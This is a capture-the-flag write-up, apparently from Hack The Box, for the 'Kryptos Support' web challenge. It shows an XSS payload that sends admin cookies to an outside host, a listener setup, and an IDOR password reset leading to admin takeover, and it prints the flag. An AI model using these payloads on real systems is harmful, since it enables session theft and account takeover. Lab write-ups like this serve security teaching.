





# [Web] Kryptos support

Kryptos Support is a web application that provides support for their users to submit tickets. Submitted tickets will be reviewed by an administrator.

Usually when an application allows some user input to be seen by a higher privilege user, it is about using a reflected Cross Site Scripting ([XSS](https://owasp.org/www-community/attacks/xss/)) vulnerability, for the admin to execute. Depends on the admin cookie, it then becomes exploitable as either cookie stealing or Cross Site Request Forgery (CSRF).

In this application, the cookies have the HTTP only flag set to false, and thus can be sent over via an XSS: namely [cookie stealing](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md).

Here we could have used `ngrok` as:

```
# terminal 1
$ ngrok http 4444

# terminal 2
$ python -m http.server 4444
```

Instead we use a ready to go server, copy the following into the report:

```
<script>
var i=new Image;
i.src="http://1.2.3.4:4444/?"+document.cookie;
</script>
```



And we soon see the review from the admin:



From there, we can copy the cookie into Firefox developer console, Storage tab, and login as admin, to steal the session.

Subsequently, we see that it is not actually an `admin` who uses our XSS payload, but a `moderator`. However we do access to an additional menu to change the current user password.



Fortunately, the user id, or `uid`, is used as part of the request. That's called [IDOR](https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html). We can change anyone password using this API call. We just need to guess the admin `uid`, but there’s a high chance it is `1`. Let’s try it!



We can now escalate from the `moderator` user, to the `admin` user for which we now know the password. Logging in with the `admin` user and `admin` password, we are presented with the flag:



The flag is `HTB{x55_4nd_id0rs_ar3_fun!!}`.
